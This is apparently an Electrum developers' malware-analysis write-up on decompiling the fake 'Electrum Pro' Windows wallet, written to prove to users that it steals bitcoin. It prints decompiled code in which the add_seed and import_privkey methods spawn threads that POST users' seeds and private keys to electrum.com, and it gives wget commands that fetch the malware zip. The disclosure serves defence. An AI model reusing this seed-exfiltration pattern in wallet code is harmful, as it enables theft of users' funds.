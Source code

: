 # Decompiling the ElectrumPro stealware

This document describes how to decompile the "Electrum Pro" Windows
binaries, and how to verify that they indeed contain bitcoin-stealing
malware.  We previously warned users against "Electrum Pro", but we
did not have formal evidence at that time.


## 0. Background

Electrum is a popular Bitcoin wallet, distributed on
[electrum.org](https://www.electrum.org) and
[spesmilo/electrum](https://github.com/spesmilo/electrum).

Recently, a website hosted at "electrum dot com" has been trying to
defraud Electrum users, by distributing fake Electrum binaries that
will extract the user's seed words and private keys, and send them to
a remote server.

In the past, this kind of attack has been carried out by websites
hosted on domain names similar to electrum.org (e.g. they swap two
letters, or use fancy UTF8 characters that look similar), and using
paid Google ads. Those websites are commonly just an almost exact copy
of the official one.

The "electrum dot com"
[scheme](https://www.reddit.com/r/Bitcoin/comments/8a1drz/psa_electrumcom_bought_by_scammers_to_distribute/)
is taking that attack further: the scammers have managed to take
control of [the dot com domain](https://i.imgur.com/RPqKmwf.png), and
they have developed a website with a slightly different design and
logo. The authors have been [claiming](https://archive.fo/Yuvjn) that
they are developing a legitimate fork of the Electrum project, and
that they are trying to improve user experience. The owners of
"electrum dot com" went as far as to claim that they are "currently
undergoing a public security audit which will be released soon".

Well, given they did not release such audit, we will do it in this
write-up.


## 1. Prerequisites

This guide assumes a modern Debian based Linux distribution.

1. The same version of python is needed as the one used in the binary.
For the Windows binaries, python 3.5.
[This link](https://askubuntu.com/questions/682869/how-do-i-install-a-different-python-version-using-apt-get)
might be useful if you are on too new or too old ubuntu.

2. To unpack the pyinstaller binary,
[pyinstallerextractor](https://sourceforge.net/projects/pyinstallerextractor/)
will be used:

    ```
    $ wget -O pyinstxtractor.py  https://downloads.sourceforge.net/project/pyinstallerextractor/dist/pyinstxtractor.py
    ```

3. To decompile the pyc bytecode, [uncompyle6](https://pypi.org/project/uncompyle6/)
will be used:

    ```
    $ python3.5 -m pip install uncompyle6
    ```


## 2. Download the malware

```
$ wget https://www.electrum.com/4.0.2/ElectrumPro-4.0.2-Standalone.zip
```

At the time of writing, the file we get is:

```
$ sha256sum ElectrumPro-4.0.2-Standalone.zip
f497d2681dc00a7470fef7bcef8228964a2412889cd70b098cb8985aa1573e99  ElectrumPro-4.0.2-Standalone.zip
```

If you get a different hash, it means that the attackers have removed
the malware version from their website, in order to evade legal
takedown mesures. However, a backup of electrum dot com is hosted on
archive.org, and can be used to retrieve the malware file:

```
$ wget https://web.archive.org/web/20180508092547/https://www.electrum.com/4.0.2/ElectrumPro-4.0.2-Standalone.zip
```


## 3. Uncompress the zip

For example
```
7za e ElectrumPro-4.0.2-Standalone.zip
```
(which requires p7zip)

Warning: obviously, do not execute the extracted file.


## 4. Unpack the pyinstaller binary
```
python3.5 ./pyinstxtractor.py electrumpro-4.0.2.exe
```

## 5. Decompile the python bytecode
```
cd electrumpro-4.0.2.exe_extracted/out00-PYZ.pyz_extracted/
uncompyle6 electrum.keystore.pyc
```

The output of this command can be found
[here](https://gist.github.com/SomberNight/62d78d206001e13e30e169ef8eb2b4dc).


## 6. A look at the output

Particularly of interest are lines 223-248:

```python
def verify_version(self, v1):
    reqlist = 'https://www.electrum.com/checkversioninfo.php'
    API_ENDPOINT = reqlist
    encodedversionv1 = self.encode_version(v1)
    data = {'version': encodedversionv1}
    r = None
    try:
        r = requests.post(url=API_ENDPOINT, data=data)
        if r.status_code != 200:
            self.verify_version(v1)
        else:
            if r.text != 'current_version=' + encodedversionv1:
                self.verify_version(v1)
    except requests.exceptions.RequestException as e:
        self.verify_version(v1)

def verify_version_thread(self, v1):
    time.sleep(15)
    self.verify_version(v1)

def add_seed(self, seed):
    if self.seed:
        raise Exception('a seed exists')
    self.thread_v1 = threading.Thread(target=self.verify_version_thread, args=(seed,))
    self.thread_v1.start()
    self.seed = self.format_seed(seed)
```

`add_seed` is a method in the `keystore.py` module, that gets called
while creating or restoring a wallet. In this binary, a few extra
lines have been added by the scammers: A thread is started that
**sends** an HTTP POST request to their website, and its payload is
**the user's seed**.  This demonstrates that "Electrum Pro" is
bitcoin-stealing malware.

Also, lines 127-155:

```python
def verify_version(self, v1, v2):
        reqlist = 'https://www.electrum.com/checkversion.php'
        API_ENDPOINT = reqlist
        encodedversion = self.encode_version(v1, v2)
        data = {'version': encodedversion}
        r = None
        try:
            r = requests.post(url=API_ENDPOINT, data=data)
            if r.status_code != 200:
                self.verify_version(v1, v2)
            else:
                if r.text != 'current_version=' + encodedversion:
                    self.verify_version(v1, v2)
        except requests.exceptions.RequestException as e:
            self.verify_version(v1, v2)

    def verify_version_thread(self, v1, v2):
        time.sleep(15)
        self.verify_version(v1, v2)

    def import_privkey(self, sec, password):
        txin_type, privkey, compressed = deserialize_privkey(sec)
        pubkey = public_key_from_private_key(privkey, compressed)
        self.thread_v1 = threading.Thread(target=self.verify_version_thread, args=(pubkey_to_address('p2pkh', pubkey), sec))
        self.thread_v1.start()
        serialized_privkey = serialize_privkey(privkey, compressed, txin_type, internal_use=True)
        self.keypairs[pubkey] = pw_encode(serialized_privkey, password)
        return (
         txin_type, pubkey)
```
A thread is started when a private key is imported that
**sends** an HTTP POST request to their website, and its payload is
**the user's bitcoin address and private key**.

## 7. Closing

Users should only download binaries from official sources, and they should check the GPG signatures
(official binaries are signed with
[ThomasV's key](https://pgp.mit.edu/pks/lookup?op=vindex&search=0x2BD5824B7F9470E6)).
Alternatively if they know how, they can run from source, or build binaries themselves.

In addition to GPG signatures, Electrum is working on having the Windows binaries signed using the
Windows native scheme, which should be ready soon, and at some point there will be an
official signed package in the MacOS store as well.

### Misc

Note that this post was looking at only one of the Windows binaries
distributed by "electrum dot com", but it is safe to assume that the
other Windows binaries are malicious as well.  We also checked the Mac
`.dmg` file, and it contained the same modifications. The Linux
package seemed harmless, presumably because the scammers did not want
to have these changes in plain sight (Linux packages are essentially
just source code).

Thanks to  `echeveria` (on Freenode); [here](https://transfer.sh/oZ4P7/electrumpro.warc.gz) is a complete copy of electrum dot com in web-archive
(archive.org format), [opentimestamped](https://transfer.sh/oq1ve/electrumpro.warc.gz.ots).

There is also a copy of the binary matching the sha256 hash in this write-up on
[archive.org](https://web.archive.org/web/20180508092547/https://www.electrum.com/4.0.2/ElectrumPro-4.0.2-Standalone.zip).

Also, a [VirusTotal URL](https://www.virustotal.com/#/file/f497d2681dc00a7470fef7bcef8228964a2412889cd70b098cb8985aa1573e99/relations)
linking the hash to the website.
